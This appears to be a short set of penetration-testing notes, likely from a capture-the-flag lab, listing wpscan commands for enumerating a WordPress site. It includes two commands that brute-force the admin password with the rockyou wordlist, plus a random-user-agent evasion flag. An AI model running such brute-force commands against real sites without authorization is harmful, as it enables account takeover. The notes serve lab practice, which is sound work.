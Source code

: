
- [Scan]             wpscan --url https://site.com --wp-content-dir -e --output wpscan.80 --format cli-no-color
- [Brute-force]      
    - wpscan --url http://internal.thm/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt
    - wpscan --url http://internal.thm --usernames admin --passwords /usr/share/wordlists/rockyou.txt 
    

--random-user-agent 
--max-threads 1 
--request-timeout 60

